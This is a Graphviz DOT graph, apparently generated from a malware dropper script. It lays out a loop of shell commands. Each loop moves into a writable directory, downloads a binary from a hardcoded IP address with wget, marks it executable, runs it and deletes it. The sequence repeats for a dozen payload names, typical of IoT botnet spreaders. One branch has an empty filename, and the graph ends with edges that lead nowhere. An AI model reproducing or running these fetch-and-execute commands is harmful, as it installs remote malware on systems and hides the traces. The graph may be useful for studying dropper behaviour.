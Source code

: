 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://119.94.59.146/aaaajalungka "];
10 -> 12 [label=";,"];
12 [label="chmod +x aaaajalungka "];
12 -> 14 [label=";,"];
14 [label="./aaaajalungka "];
14 -> 16 [label=";,"];
16 [label="rm -rf aaaajalungka "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://119.94.59.146/aaaajamango "];
28 -> 30 [label=";,"];
30 [label="chmod +x aaaajamango "];
30 -> 32 [label=";,"];
32 [label="./aaaajamango "];
32 -> 34 [label=";,"];
34 [label="rm -rf aaaajamango "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://119.94.59.146/aaaajaopenggl "];
46 -> 48 [label=";,"];
48 [label="chmod +x aaaajaopenggl "];
48 -> 50 [label=";,"];
50 [label="./aaaajaopenggl "];
50 -> 52 [label=";,"];
52 [label="rm -rf aaaajaopenggl "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://119.94.59.146/aaaajavast "];
64 -> 66 [label=";,"];
66 [label="chmod +x aaaajavast "];
66 -> 68 [label=";,"];
68 [label="./aaaajavast "];
68 -> 70 [label=";,"];
70 [label="rm -rf aaaajavast "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://119.94.59.146/aaaajagreyps "];
82 -> 84 [label=";,"];
84 [label="chmod +x aaaajagreyps "];
84 -> 86 [label=";,"];
86 [label="./aaaajagreyps "];
86 -> 88 [label=";,"];
88 [label="rm -rf aaaajagreyps "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://119.94.59.146/aaaajakuhamo "];
100 -> 102 [label=";,"];
102 [label="chmod +x aaaajakuhamo "];
102 -> 104 [label=";,"];
104 [label="./aaaajakuhamo "];
104 -> 106 [label=";,"];
106 [label="rm -rf aaaajakuhamo "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://119.94.59.146/aaajamarco "];
118 -> 120 [label=";,"];
120 [label="chmod +x aaajamarco "];
120 -> 122 [label=";,"];
122 [label="./aaajamarco "];
122 -> 124 [label=";,"];
124 [label="rm -rf aaajamarco "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://119.94.59.146/aaaajachikos "];
136 -> 138 [label=";,"];
138 [label="chmod +x aaaajachikos "];
138 -> 140 [label=";,"];
140 [label="./aaaajachikos "];
140 -> 142 [label=";,"];
142 [label="rm -rf aaaajachikos "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://119.94.59.146/aaaajapchikos "];
154 -> 156 [label=";,"];
156 [label="chmod +x aaaajapchikos "];
156 -> 158 [label=";,"];
158 [label="./aaaajapchikos "];
158 -> 160 [label=";,"];
160 [label="rm -rf aaaajapchikos "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://119.94.59.146/aaaajacos "];
172 -> 174 [label=";,"];
174 [label="chmod +x aaaajacos "];
174 -> 176 [label=";,"];
176 [label="./aaaajacos "];
176 -> 178 [label=";,"];
178 [label="rm -rf aaaajacos "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://119.94.59.146/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://119.94.59.146/aaaajafacebook3 "];
208 -> 210 [label=";,"];
210 [label="chmod +x aaaajafacebook3 "];
210 -> 212 [label=";,"];
212 [label="./aaaajafacebook3 "];
212 -> 214 [label=";,"];
214 [label="rm -rf aaaajafacebook3 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://119.94.59.146/aaaajanetdelds "];
226 -> 228 [label=";,"];
228 [label="chmod +x aaaajanetdelds "];
228 -> 230 [label=";,"];
230 [label="./aaaajanetdelds "];
230 -> 231 [label=";,"];
}
